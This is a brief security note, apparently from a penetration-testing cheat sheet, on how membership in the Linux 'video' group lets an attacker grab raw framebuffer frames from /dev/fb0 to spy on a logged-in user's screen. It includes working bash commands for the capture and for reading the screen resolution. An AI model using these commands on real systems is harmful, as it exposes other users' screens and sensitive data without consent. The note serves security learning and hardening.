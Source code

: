 ## Video Group

The **video** group controls access to video devices on the system, such as graphics cards and video capture devices.

## Attack

An attacker could use the **video** group permissions to spy on the screen of a user connected to the system and gather potentially sensitive information.

```bash
# Read a raw frame from the screen with
cat /dev/fb0 > /tmp/screen.raw

# To retrieve the screen resolution
cat /sys/class/graphics/fb0/virtual_size
```

From here, we could try to open the file with an image editor like GIMP to view the capture. (It’s important to remember the screen resolution to reconstruct it.)
